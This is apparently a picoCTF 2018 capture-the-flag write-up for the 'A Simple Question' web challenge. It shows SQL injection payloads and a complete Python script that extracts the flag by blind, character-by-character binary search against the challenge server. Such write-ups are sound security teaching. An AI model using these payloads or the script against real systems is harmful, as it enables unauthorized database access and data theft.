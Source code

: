 # A Simple Question
The challenge reads:
> There is a website running at http://2018shell3.picoctf.com:15987 ([link](http://2018shell3.picoctf.com:15987)). Try to see if you can answer its question.

Heading to the website we saw:
![](https://github.com/klwuco/picoCTF2018_writeups/blob/master/img/simplequestion1.png)

Typing in something to submit we saw the message saying that the answer is wrong.
![](https://github.com/klwuco/picoCTF2018_writeups/blob/master/img/simplequestion2.png)

Look at the source code of the website, we can find a link to the source code of the php.
![](https://github.com/klwuco/picoCTF2018_writeups/blob/master/img/simplequestion3.png)

Here is the php code:
![](https://github.com/klwuco/picoCTF2018_writeups/blob/master/img/simplequestion4.png)

The code is as follows. If the answer is correct, then we get the flag! If there are more than one results returned, return "You are so close.", and else, return "Wrong." The interesting part is the middle one. The only situation where it will return more than one results is if we try to do a SQL injection attack on it. But we can't just use ```' or 1=1;--``` as our payload as it would just return "You are so close." Not very helpful.

Here, we need to brute force the flag out, but with a smart way. We need a way to know that for the first character, it is correct or not. If it is correct, we can brute force the second character, and so on. And the way to achieve that, is to realize that we can use the ```>=``` operator in SQL. If in ASCII encoding, the actual character is greater than the first character we guessed, we will get a "You are so close." An example with the payload ```' or 1=1 and answer >= '1' --``` returns
![](https://github.com/klwuco/picoCTF2018_writeups/blob/master/img/simplequestion5.png)

And otherwise if the actual character is smaller, then we get a "wrong."
![](https://github.com/klwuco/picoCTF2018_writeups/blob/master/img/simplequestion6.png)

The important observation is that if we guess a correct character, the query for the correct character will return "You are so close", where the query for the next character after the correct one will return "Wrong." Knowing this we can perform a binary search for all the characters of the password! The code is as follows:
```
import requests
from math import floor


def check(before, m):
    r = requests.post("http://2018shell3.picoctf.com:15987/answer2.php", data={'answer': "\'or 1=1 and answer >= \'" + before + chr(m) + "\'--", 'debug': 0})
    return r.text


def check_correct(flag):
    r = requests.post("http://2018shell3.picoctf.com:15987/answer2.php", data={'answer': flag, 'debug': 0})
    return r.text


START = 32
END = 127
CLOSE = "You are so close"
WRONG = "Wrong."


x = [i for i in range(START, END)]
i = START
j = END
password = ""
chk = ""
while True:
    while True:
        m = floor((i + j) / 2)
        print(f"{i} - {m} - {j}")
        text = check(password, m)
        if CLOSE in text:
            check_wrong = check(password, m + 1)
            if(WRONG in check_wrong):
                break
            print("Close!")
            i = m + 1
        elif WRONG in text:
            print("Wrong!")
            j = m
    print("Got one character!")
    password += chr(m)
    print(password)
    i = START
    j = END
    chk = check_correct(password)
    if WRONG not in chk and\
            CLOSE not in chk:
        break

print(f"Found it! The password is {password}")
print("Response: " + chk)

```
Running the script gives us the flag.
![](https://github.com/klwuco/picoCTF2018_writeups/blob/master/img/simplequestion7.png)